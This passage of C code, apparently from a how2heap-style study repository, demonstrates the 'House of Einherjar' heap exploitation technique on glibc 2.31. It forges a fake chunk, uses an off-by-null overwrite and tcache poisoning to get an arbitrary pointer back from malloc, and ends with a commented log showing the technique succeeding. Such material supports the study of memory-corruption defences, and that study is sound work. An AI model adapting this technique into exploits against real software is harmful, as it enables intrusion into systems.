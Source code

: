 ```c
	
	long long *p_A = (long long*)A;
	/*
	make a fake chunk
	And
	bypass unlink detect
	*/
	char *fake_chunk = A+0x10;
	printf("fake_chunk's mem is @ %p\n",fake_chunk);
	p_A[0] = 0;
	p_A[1] = 0x50;
	p_A[2] = &p_A[0];
	p_A[3] = &p_A[0];

	// off-by-null
	long long *p_B = (long long*)B;
	p_B[4] = 0x50; // C's prev_size
	p_B[5] = 0x90;// C's size 
	
	
	// fill tcache
	char *p_tcache[20];
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x80); // size equal to chunk C
	}
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	// free C to unlink and merge
	free(C);
	
	// add back A+B+C
	char *p = malloc(0xd0); // fake_chunk's size now: 0xe1
	printf("now we add back A+B+C, where *p is @ %p\n",p);
	assert(p==fake_chunk);

	/* 
	leverage overlapping
	tcache poisoning	
	*/
	char *pad = malloc(0x28); // count>0
	free(pad);
	free(B);
	// tcache: 0x30 [ 2] : B->pad
	long long *p_p = (long long*)p;
	p_p[0] = 0;p_p[1] = 0;
	p_p[2] = 0;
	p_p[3] = 0x30; // B's size
	p_p[4] = &target; // hijack *next
	// B->target
	char *b = malloc(0x28);
	char *s = malloc(0x28);
	printf("FInally we add back target_addr @ %p!!!\n",s);
	assert(&target==s);
	return 0;
}
/*
➜  glibc-2.31 git:(main) ✗ ./house_of_einherjar                             
our taget_addr is @ 0x7fffe71699a8
fake_chunk's mem is @ 0x5557f99c16c0
now we add back A+B+C, where *p is @ 0x5557f99c16c0
FInally we add back target_addr @ 0x7fffe71699a8!!!
*/
```